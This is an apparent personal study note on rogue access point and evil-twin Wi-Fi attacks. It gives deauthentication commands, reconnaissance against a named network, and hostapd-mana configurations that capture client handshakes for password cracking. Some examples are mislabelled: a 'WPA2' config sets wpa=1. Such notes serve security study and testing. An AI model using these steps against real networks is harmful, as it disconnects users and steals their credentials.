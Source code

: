 ```yaml
---
description: >-
  Rogue Access Points
title:  Rogue Access Points      # Add title here
date: 2023-09-27 08:00:00 -0600                           # Change the date to match completion date
categories: [18 Wireless, Wireless Attacks]                     # Change Templates to Writeup
tags: [wireless, rogue AP, evil-twin]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```


A rogue AP is an AP in use that has not been authorized by a local network administrator. This could take the form of an AP plugged into a network without the administrator's knowledge.

### Creating a Rogue AP
Evil twins can be in any channel, except if we clone the BSSID of the AP we want to impersonate, in which case the channel must be different. But APs with different BSSID and equal ESSID can coexist in the same channel.

If we get a connection in an evil twin, the connected client won't have internet access if we don't give him an IP with a dhcp server.

> With hostapd, we need to be listening with airodump (on another wifi interface) at the same time that we host the fake ap, to capture handshakes of clients that try to connect to us, despite the PSK mismatch (since we don't know the real PSK but will crack it from their handshake to us)
{: .prompt-warning }

Deauth a client if he doesn't connect to our AP
``sudo aireplay-ng --deauth 4 -a <bssid> -c <client_MAC> wlan0mon``

### Gathering Information
While some clients will connect to our rogue AP just based on the SSID being the same as the target, our attack is more likely to succeed if we match the encryption details as well. To accomplish this, we need to conduct reconnaissance against the target to gather information.
```bash
airodump-ng -w discovery --output-format pcap wlan0
 BSSID              PWR  Beacons    #Data, #/s  CH   MB   ENC CIPHER  AUTH ESSID
 10:A7:93:BE:F0:B0  -47        2        0    0  11  195   WPA2 CCMP   PSK  SHUC-IRAN

  BSSID              STATION            PWR   Rate    Lost    Frames  Notes  Probes                              
 (not associated)   8C:68:3A:9C:45:D8  -59    0 - 1      0        1          ShuciNetwork        
```
We will target the AP with the SSID "SHUC-IRAN". The airodump-ng output shows us SHUC-IRAN with the following details:

| Feature | Value |
|---------|-------|
| Encryption | WPA2-PSK + CCMP |
| Throughput | 195 Mbit |
| Channel | 11 |

When we create our rogue AP, we should match these settings as closely as possible to ensure that clients automatically connect to our rogue AP based on their Preferred Network List.

We shouldn't solely trust the output of airodump-ng since it only shows the highest encryption possible. If the `SHUC-IRAN` target network also supports WPA1, that information will not be displayed in the table.

To check for further information we need to analyze the previously generated traffic `discovery-01.pcap` with wireshark:
```bash
# Wireshark reading pcap
wireshark -r discovery-01.pcap
# Filter
wlan.fc.subtype == 0x08 && wlan.ssid == "SHUC-IRAN"
```

Additionally if we look closely, we can see that there is a client trying to connect to an SSID called `ShuciNetwork` we could also create our rogue AP based on the client probes which we can retrieve from PCAP file using `wlan.fc.subtype == 0x08 && wlan.bssid contains 10:A7:93:BE:F0:B0`


### hostapd / hostapd-mana
hostapd-mana is an enhanced version of hostapd. Both are used for hosting fake APs, but mana includes more options to do things like dump passwords obtained from the handshake. Hostapd-mana can read hostapd config files, but also includes other options 

Install
```bash
sudo apt install hostapd-mana
sudo apt install hostapd-mana
```

Run
```bash
hostapd a.conf
hostapd-mana a.conf
```

Parameters: 
- ``driver=nl80211``  -> always the same for all linux devices
- ``hw_mode=g`` -> 2.4 GHz  y 54 Mb
- auth_algs (this is for WEP, for WPA use the equivalent ``wpa`` parameter-> 
	- ``auth_algs=0`` ->OPEN
	- ``auth_algs=1`` ->WEP
	- ``auth_algs=2`` -> Both
- ``wep_key0`` <- we can use up to 4
- Type of security
	- ``wpa=3`` -> activate both WPA and WPA2
	- ``wpa=2`` -> activate only WPA2
	- ``wpa=1`` -> activate only WPA

Type of authentication:
- ``wpa_key_mgmt=WPA-PSK``
- ``wpa_passphrase=<passphrase>`` -> passphrase in the case of PSK auth, we can set anything here, we don't care it's wrong

Encryption type (if the target is exclusiveliy WPA1 or WPA2 use just one of the following):
- ``wpa_pairwise=TKIP CCMP`` -> TKIP or CCMP encryption with WAP1
- ``rsn_pairwise=TKIP CCMP`` -> TKIP or CCMP encryption with WPA2

- ``mana_wpaout``-> where to save the captured handshakes (in a Hashcat hccapx format). 

#### hostap with  no encryption
```
interface=wlan1
ssid=hostel-A
hw_mode=g
channel=6
driver=nl80211
```

#### hostap with wep
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=hostel-A
auth_algs=1
wep_default_key=0
wep_key0="54321"
```

#### hostap with WPA-PSK
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=HomeAlone
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=TKIP
wpa_passphrase=welcome@123
```

#### hostap with WPA2-PSK
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211
ssid=Lost-in-space
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_passphrase=beautifulsoup

# SSID 2
bss=wlan1_0
ssid=LOCOMO-Mobile-hotspot
auth_algs=1
wpa=1
wpa_key_mgmt=WPA-PSK
wpa_pairwise=CCMP
wpa_passphrase=beautifulsoup
```

alternative
```
interface=wlan1
hw_mode=g
channel=6
driver=nl80211

ssid=Lost-in-space
auth_algs=1
wpa=2
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
wpa_passphrase=beautifulsoup
```

#### Hosting several APs
Two different ESSIDs with the same wifi antenna (interface wlan1). With hostap, if we want to simulate several ESSIDs, the first one must use the keyword "interface" and the real interface name, and the next ones use the keyword "bss" and we use fictitious names, like wlan1_0. This can be used if a client probes different clients.
```
# SSID 1
interface=wlan1
driver=nl80211
ssid=dex-net
wpa=2
wpa_passphrase=123456789
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1

# SSID 2
bss=wlan1_0
ssid=dex-network
wpa=2
wpa_passphrase=123456789
wpa_key_mgmt=WPA-PSK
rsn_pairwise=CCMP
channel=1
```


```
interface=wlan0
ssid=<ESSID>
channel=1
hw_mode=g
ieee80211n=1
wpa=3
wpa_key_mgmt=WPA-PSK
wpa_passphrase=ANYPASSWORD
wpa_pairwise=TKIP
rsn_pairwise=TKIP CCMP
mana_wpaout=/home/kali/output.hccapx
```